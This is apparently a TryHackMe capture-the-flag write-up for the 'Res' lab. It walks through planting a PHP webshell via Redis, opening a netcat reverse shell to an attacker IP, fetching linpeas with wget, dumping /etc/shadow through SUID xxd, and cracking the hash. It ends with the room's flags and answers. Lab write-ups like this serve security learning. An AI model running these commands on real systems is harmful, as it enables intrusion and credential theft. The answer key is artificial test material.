 # Res - Easy

```shell
nmap -T4 -p- -A -v 10.10.247.238

redis-cli -h 10.10.247.238 -p 6379

#in redis-cli
info

config set dir /var/www/html

config set dbfilename redis.php

set test "<?php system($_GET['cmd']); ?>"

save

#setup listener
nc -nvlp 4444
#execute the commands on webshell to get reverse shell

id

python3 -c 'import pty;pty.spawn("/bin/bash")'

#in attacker machine
python3 -m http.server

#in reverse shell
cd /tmp

wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#xxd has SUID bit set

#exploit from GTFObins
LFILE=/etc/shadow

/usr/bin/xxd "$LFILE" | xxd -r
#dumps hash

#crack hash
hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/kaonashi.txt
#we get password

su vianka
#get user flag

sudo -l
#we can run all commands as all users

sudo cat /root/root.txt
```

* Open ports & services:

  * 80 - http - Apache httpd 2.4.18 (Ubuntu)
  * 6379 - redis - Redis key-value store 6.0.7

* The page on port 80 is the default landing page for Apache.

* We can try connecting to the redis service on port 6379.

* Using ```redis-cli```, we are able to interact with the database management system.

* Googling for 'redis hacktricks' gives us techniques for uploading a simple webshell.

* Assuming the default path of '/var/www/html' for Apache web folder, we can upload a shell for RCE.

* Now, if we access <http://10.10.247.238/redis.php?cmd=whoami>, we can see that our command gets executed - we are 'www-data'.

* So, we can setup a listener and get reverse-shell, by executing these commands:

  ```which nc```

  ```nc -c sh 10.14.31.212 4444```

* This gives us a reverse-shell on our listener.

* We can check for privesc using ```linpeas```.

* Now, this shows that 'xxd' binary has SUID bit set - we can get exploit from GTFObins for this.

* Using exploit, we are able to dump the /etc/shadow file - this gives us the hash for 'vianka' user.

* From the Hashcat wiki, we can see that this is a sha512crypt hash - we can crack it using ```hashcat```.

* Cracking the hash gives us the password 'beautiful1' - we can now login as vianka.

* Using ```sudo -l```, it is evident that we can run all commands as all users, including sudo - so we can get root flag.

```markdown
1. Scan the machine, how many ports are open? - 2

2. What is the database management system installed on the server? - redis

3. What port is the database management system running on? - 6379

4. What is the version of management system installed on the server? - 6.0.7

5. Compromise the machine and locate user.txt - thm{red1s_rce_w1thout_credent1als}

6. What is the local user account password? - beautiful1

7. Escalate privileges and obtain root.txt - thm{xxd_pr1v_escalat1on}
```
